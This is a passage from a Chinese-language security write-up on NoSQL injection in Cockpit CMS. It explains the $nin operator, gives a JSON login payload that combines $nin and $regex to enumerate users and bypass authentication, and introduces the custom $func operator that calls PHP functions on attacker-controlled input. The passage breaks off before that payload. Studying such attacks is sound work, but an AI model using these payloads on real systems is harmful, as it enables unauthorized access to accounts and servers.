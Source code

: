以`ab`开头的用户不存在，那返回的信息自然是**User not found**。

### $nin

`$nin`表示查询时不匹配数组中的值，语法：

```
{
    field: { $nin: [ <value1>, <value2>, ..., <valueN> ] }
}
```

payload：

```
{
    "auth":{
        "user":{
            "$nin": [
                "admin",
                "Poseidon",
                "Sirens"
            ],
            "$regex": "Co.*"
        },
        "password":[
            0
        ]
    },
    "csfr":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJjc2ZyIjoibG9naW4ifQ.dlnu8XjKIvB6mGfBlOgjtnixirAIsnzf5QTAEP1mJJc"
}
```

### 自定义$func/$fn/$f 操作符

在Cockpit的**lib/MongoLite/Database.php**的[`evaluate`](https://github.com/agentejo/cockpit/blob/0d01412e1209468c23f0f4c49eccf959059e415e/lib/MongoLite/Database.php#L432)函数中重写和新增很多MongoDB操作符，其中`$func`、`$fn`和`$f`操作符比较有意思，因为该操作符允许调用callable PHP函数：

![img](nosql注入.assets/t0179c40915ee4f309d.png)

`$func`操作符并不是MongoDB中定义的标准操作符，在Cockpit CMS中，该操作符可以调用任何带有单个参数的PHP标准函数，其中`$b`是我们可控的。

所以我们可以构造这样的payload：
